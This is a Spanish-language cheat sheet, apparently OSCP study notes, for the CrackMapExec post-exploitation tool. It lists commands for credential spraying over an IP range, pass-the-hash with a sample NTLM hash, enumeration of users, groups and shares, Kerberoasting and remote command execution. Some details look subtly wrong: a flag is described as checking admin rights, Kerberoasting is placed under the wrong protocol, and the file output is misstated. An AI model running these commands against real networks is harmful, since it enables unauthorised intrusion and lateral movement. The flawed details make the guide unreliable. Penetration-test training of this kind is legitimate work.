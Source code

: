CrackMapExec (`cme`) es una herramienta potente de post-explotación y enumeración para entornos Windows/Active Directory. Permite listar usuarios, shares, políticas, identificar sesiones activas y lanzar ataques como Pass-the-Hash o Kerberoasting. En OSCP es clave para moverse lateralmente o escalar privilegios.

---

## Instalación

Recomendado usar pipx:
```bash
pipx install crackmapexec
```

O manualmente:
```bash
git clone https://github.com/Porchetta-Industries/CrackMapExec
cd CrackMapExec
pip install -r requirements.txt
python3 setup.py install
```

---

## Uso Básico

```bash
cme smb <IP> -u <usuario> -p <password>
```

Ejemplo:
```bash
cme smb 10.11.1.100 -u admin -p 'password123'
```

---

## Escaneo de Rango

```bash
cme smb 10.11.1.0/24 -u admin -p 'password123'
```

---

## Autenticación con Hash (Pass-the-Hash)

```bash
cme smb <IP> -u administrator -H aad3b435b51404eeaad3b435b51404ee:9a709a4f68c4b9c14d6eb9c4b7643dfc
```

---

## Enumerar Usuarios y Grupos

```bash
cme smb <IP> -u user -p pass --users
cme smb <IP> -u user -p pass --groups
```

---

## Enumerar Shares

```bash
cme smb <IP> -u user -p pass --shares
```

---

## Verificar si un Usuario es Admin Local

```bash
cme smb <IP> -u user -p pass --local-auth
```

---

## Kerberoasting

```bash
cme smb <IP> -u user -p pass --kerberoast
```

Archivos `.kirbi` se guardan localmente para crackear con hashcat.

---

## Módulos Extra (e.g., Mimikatz, WMI, PSExec)

```bash
cme smb <IP> -u user -p pass -x whoami
```

---

## Casos de Uso OSCP

- Verificar credenciales reutilizadas
- Listar recursos accesibles sin privilegios
- Enumerar usuarios para ataques posteriores
- Realizar movimiento lateral en entorno AD

---

## Buenas Prácticas

- Siempre verificar primero si tienes credenciales válidas
- Usar rangos `/24` si no sabes la IP exacta del DC
- Guardar toda salida para referencia posterior (`tee`)

---
